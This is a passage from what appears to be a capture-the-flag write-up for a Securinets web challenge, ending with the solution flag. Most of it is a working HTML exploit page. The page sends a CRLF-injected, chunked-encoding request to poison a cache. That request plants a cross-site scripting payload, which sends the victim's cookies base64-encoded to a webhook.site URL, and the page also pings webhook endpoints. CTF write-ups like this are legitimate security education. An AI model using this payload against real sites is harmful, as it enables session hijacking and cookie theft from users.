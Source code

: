 ### Final Payload

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Payload</title>
</head>
<body>
    <img src="https://webhook.site/a995bb24-b7dd-4760-8c17-b69e32e9b9f2?msg=start">
    <iframe id="frame" frameborder="0"></iframe>
    <script>
        const url="https://escape.nzeros.me/?user=strangera:%252520b%25250d%25250aTransfer-Encoding:%252520chunked%25250d%25250a%25250d%25250a91%25250d%25250a%7B%22token%22%3A%22%3Cimg%20src%20onerror%3Dwindow.location%3D%27https%3A%2F%2Fwebhook.site%2F91f29570-a3d7-4288-8143-3daea4f6cc53%25253Fflag%3D%27%25252Bbtoa%28document.cookie%29%3E%22%2C%22user%22%3A%22aa%22%7D%25250d%25250a0%25250d%25250a%25250d%25250a";
        function sleep (time) {
            return new Promise((resolve) => setTimeout(resolve, time));
        }
        (async ()=>{
            w=window.open(url);
            await sleep(1000);
            fetch("https://webhook.site/3f310fc8-1d55-4fbf-83bc-6ac00167ebf1?msg=fetch_after_sleep")
            for (let index = 0; index < 10; index++) {
                window.open("https://escape.nzeros.me/helloworld");
            }
        })()
    </script>
</body>
</html>
```

## Flag

`Securinets{Great_escape_with_Crlf_in_latest_werkzeug_header_key_&&_cache_poison}`
